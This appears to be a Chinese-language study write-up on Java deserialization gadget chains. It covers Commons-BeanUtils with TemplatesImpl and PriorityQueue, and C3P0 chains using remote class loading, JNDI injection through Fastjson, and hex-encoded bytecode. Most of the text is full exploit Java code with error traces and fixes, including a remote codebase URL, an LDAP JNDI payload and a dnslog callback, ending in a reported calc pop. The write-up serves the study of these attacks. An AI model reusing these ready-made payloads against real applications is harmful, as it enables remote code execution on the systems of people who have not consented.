








#### CB 链

commans BeanUtils 提供了一个通过反射获取 Java Bean 属性的方法 PropertyUtils.getProperty() ，在获取 Bean 的某个特定属性值时，调用该属性的 getter 方法，因此衔接了 TemplateImpl 的 getOutproperties 加载恶意字节码，或是 JdbcRowSetImpl 的 getDatabaseMetaData 方法打 JNDI 注入。

接下来查找哪里调用了 PropertyUtils.getProperty() ，

 

创建 BeanComparator 实例的时候传入 property ,接下来查找怎么调用其 compare ,

反序列化时会调用 compare 还原原始对象位置的, 在 TreeMap 的 readObject 方法中跟进查找并没有 compare , TreeSet 也一样，优先队列 PriorityQueue 中存在 compare 调用



exp 如下

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.commons.beanutils.PropertyUtils;

import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;
import java.util.TreeMap;
import java.util.TreeSet;
import java.util.concurrent.ConcurrentSkipListMap;

public class CB {
    public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException, InvocationTargetException, NoSuchMethodException, ClassNotFoundException {
        byte[] code = Files.readAllBytes(Paths.get("D:\\tools_D\\java\\java_learn\\cc_chain\\cc3_\\src\\main\\java\\templatesBytes.class"));
        byte[][] evil = new byte[1][];
        evil[0] = code;

        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl,"_name","evil");
        setFieldValue(templatesImpl,"_tfactory",new TransformerFactoryImpl());
        setFieldValue(templatesImpl,"_bytecodes",evil);

//        PropertyUtils.getProperty(templatesImpl,"outputProperties");
//        BeanComparator beanComparator= new BeanComparator("outputProperties");
//        beanComparator.compare(templatesImpl,templatesImpl);
        BeanComparator beanComparator = new BeanComparator();
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, beanComparator);
        queue.add(1);
        queue.add(2);

        setFieldValue(queue,"quene",new Object[]{templatesImpl,templatesImpl});
        setFieldValue(beanComparator,"property","outProperties");
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(queue);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
    public static void setFieldValue(Object o,String field,Object value) throws NoSuchFieldException, IllegalAccessException {
        Class<?> clazz = o.getClass();
        Field fieldName = clazz.getDeclaredField(field);
        fieldName.setAccessible(true);
        fieldName.set(o,value);
    }
}
```


#### C3P0 链

##### 1. URLClassLoader 远程类加载


exp 如下

```java
import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;

import javax.naming.Reference;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;

public class C3P0 {
    public static void main(String[] args) throws ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchMethodException, NoSuchFieldException, IOException {
        String className = "Exploit";
        String factory = "Exploit";
        String codebase = "http://localhost:8080/";
        Reference ref = new Reference(className,factory,codebase);

        Class<?> refSerClass = Class.forName("com.mchange.v2.naming.ReferenceIndirector$ReferenceSerialized");
        java.lang.reflect.Constructor<?> constructor = refSerClass.getDeclaredConstructor(
                javax.naming.Reference.class,
                javax.naming.Name.class,
                javax.naming.Name.class,
                java.util.Hashtable.class
        );
        constructor.setAccessible(true);
        Object referenceSerialized = constructor.newInstance(ref, null, null, null);

        PoolBackedDataSourceBase pbd = new PoolBackedDataSourceBase(false);
        setFieldValue(pbd,"connectionPoolDataSource",referenceSerialized);
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(pbd);
        oos.close();

        byte[] payload = baos.toByteArray();
        ByteArrayInputStream bais = new ByteArrayInputStream(payload);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }

    public static void setFieldValue(Object obj,String Field,Object value) throws NoSuchFieldException, IllegalAccessException {
        Class<?> clazz = obj.getClass();
        Field field = clazz.getDeclaredField(Field);
        field.setAccessible(true);
        field.set(obj,value);
    }
}
```

报错如下

```
Exception in thread "main" java.lang.IllegalArgumentException: Can not set javax.sql.ConnectionPoolDataSource field com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase.connectionPoolDataSource to com.mchange.v2.naming.ReferenceIndirector$ReferenceSerialized
	at sun.reflect.UnsafeFieldAccessorImpl.throwSetIllegalArgumentException(UnsafeFieldAccessorImpl.java:167)
	at sun.reflect.UnsafeFieldAccessorImpl.throwSetIllegalArgumentException(UnsafeFieldAccessorImpl.java:171)
	at sun.reflect.UnsafeObjectFieldAccessorImpl.set(UnsafeObjectFieldAccessorImpl.java:81)
	at java.lang.reflect.Field.set(Field.java:764)
	at C3P0.setFieldValue(C3P0.java:44)
	at C3P0.main(C3P0.java:28)
```

com.mchange.v2.naming.ReferenceIndirector$ReferenceSerialized 不是javax.sql.ConnectionPoolDataSource 类型，这里可以使用动态代理进行绕过，这样本地反射设值的时候满足类型检查，当反序列化调用到 getObject 方法时，将其代理到前面设置好的 referenceSerialized 。

```java
javax.sql.ConnectionPoolDataSource proxyDataSource = (javax.sql.ConnectionPoolDataSource) Proxy.newProxyInstance(
        C3P0.class.getClassLoader(),
        new Class<?>[]{
                javax.sql.ConnectionPoolDataSource.class,
                javax.naming.Referenceable.class,
                IndirectlySerialized.class
        },
        new InvocationHandler() {
            @Override
            public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
                return method.invoke(referenceSerialized, args);
            }
        }
);
```

再次报错

```
Exception in thread "main" java.io.IOException: Problem indirectly serializing connectionPoolDataSource: java.lang.ClassCastException: com.sun.proxy.$Proxy0 cannot be cast to javax.naming.Referenceable
    at com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase.writeObject(PoolBackedDataSourceBase.java:175)
    at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
    at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
    at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
    at java.lang.reflect.Method.invoke(Method.java:497)
    at java.io.ObjectStreamClass.invokeWriteObject(ObjectStreamClass.java:1028)
    at java.io.ObjectOutputStream.writeSerialData(ObjectOutputStream.java:1496)
    at java.io.ObjectOutputStream.writeOrdinaryObject(ObjectOutputStream.java:1432)
    at java.io.ObjectOutputStream.writeObject0(ObjectOutputStream.java:1178)
    at java.io.ObjectOutputStream.writeObject(ObjectOutputStream.java:348)
    at C3P0.main(C3P0.java:42)
```

下断点找到抛出错误的代码行，



跟进发现 orig 需要实现 Referenceable 接口，并且实现 getReference() 方法，

```java
public IndirectlySerialized indirectForm( Object orig ) throws Exception
{ 
    Reference ref = ((Referenceable) orig).getReference();
    return new ReferenceSerialized( ref, name, contextName, environmentProperties );
}
```

该  ref  即是  urlClassLoader 加载的类引用

```java
ReferenceableUtils.referenceToObject( reference, name, nameContext, env ); 
```



修一下 proxy ，exp 如下

```java
import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import com.mchange.v2.ser.IndirectlySerialized;


import javax.naming.Reference;
import java.io.*;
import java.lang.reflect.*;

public class C3P0 {
    public static void main(String[] args) throws ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchMethodException, NoSuchFieldException, IOException {
        String className = "Exploit";
        String factory = "Exploit";
        String codebase = "http://localhost:8080/";
        Reference ref = new Reference(className,factory,codebase);

        Class<?> refSerClass = Class.forName("com.mchange.v2.naming.ReferenceIndirector$ReferenceSerialized");
        java.lang.reflect.Constructor<?> constructor = refSerClass.getDeclaredConstructor(
                javax.naming.Reference.class,
                javax.naming.Name.class,
                javax.naming.Name.class,
                java.util.Hashtable.class
        );
        constructor.setAccessible(true);
        Object referenceSerialized = constructor.newInstance(ref, null, null, null);

        javax.sql.ConnectionPoolDataSource proxyDataSource = (javax.sql.ConnectionPoolDataSource) Proxy.newProxyInstance(
                C3P0.class.getClassLoader(),
                new Class<?>[]{
                        javax.sql.ConnectionPoolDataSource.class,
                        javax.naming.Referenceable.class,
                        IndirectlySerialized.class
                },
                new InvocationHandler() {
                    @Override
                    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
                        String methodName = method.getName();
                        if ("getReference".equals(methodName)) {
                            return ref;
                        }
                        return method.invoke(referenceSerialized, args);
                    }
                }
        );

        PoolBackedDataSourceBase pbd = new PoolBackedDataSourceBase(false);
        setFieldValue(pbd,"connectionPoolDataSource",proxyDataSource);
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(pbd);
        oos.close();

        byte[] payload = baos.toByteArray();
        ByteArrayInputStream bais = new ByteArrayInputStream(payload);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }

    public static void setFieldValue(Object obj,String Field,Object value) throws NoSuchFieldException, IllegalAccessException {
        Class<?> clazz = obj.getClass();
        Field field = clazz.getDeclaredField(Field);
        field.setAccessible(true);
        field.set(obj,value);
    }
}

```

成功触发 calc



##### 2. JNDI 注入

全局搜索 lookup 方法，



exp 如下

```java
import com.alibaba.fastjson.JSON;

public class Fastjson {
    public static void main(String[] args) {
        String payload = "{\"@type\":\"com.mchange.v2.c3p0.JndiRefForwardingDataSource\",\"jndiName\":\"ldap://127.0.0.1:2333/evilexp\", \"loginTimeout\":0}";  
        JSON.parseObject(payload);
    }
}
```

##### 3. hex 字节码加载

调用栈如下,fastjson 触发 setter 方法 --> gadget 



反序列化的时候实例化该类，会调用 parseUserOverridesAsString 方法，并且每次  UserOverridesAsString 值更改时会被监听器检测到，再次调用该方法。



exp 如下

```java
import com.alibaba.fastjson.JSON;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class C3P0FastjsonExp {

    public static String bytesToHexString(byte[] src) {
        if (src == null || src.length <= 0) {
            return null;
        }
        StringBuilder stringBuilder = new StringBuilder("");
        for (byte b : src) {
            int v = b & 0xFF;
            String hv = Integer.toHexString(v);
            if (hv.length() < 2) {
                stringBuilder.append(0);
            }
            stringBuilder.append(hv);
        }
        return stringBuilder.toString().toUpperCase();
    }


    public static String generateURLDNSPayload(String urlString) throws Exception {
        HashMap<URL, String> hashMap = new HashMap<>();
        URL url = new URL(urlString);

        Field hashCodeField = Class.forName("java.net.URL").getDeclaredField("hashCode");
        hashCodeField.setAccessible(true);
        hashCodeField.set(url, 12345);

        hashMap.put(url, "111");
        hashCodeField.set(url, -1);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(hashMap);
        oos.close();

        return bytesToHexString(baos.toByteArray());
    }

    public static void main(String[] args) {
        try {
            String targetDnsLog = "http://29vul8.dnslog.cn";
            String hexPayload = generateURLDNSPayload(targetDnsLog);
            String fastjsonExp = "{\"@type\":\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",\"userOverridesAsString\":\"HexAsciiSerializedMap:HexContents;\"}";
            fastjsonExp = fastjsonExp.replace("HexContents", hexPayload);
//            System.out.println("[*] Payload:\n" + fastjsonExp);
            JSON.parseObject(fastjsonExp);

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

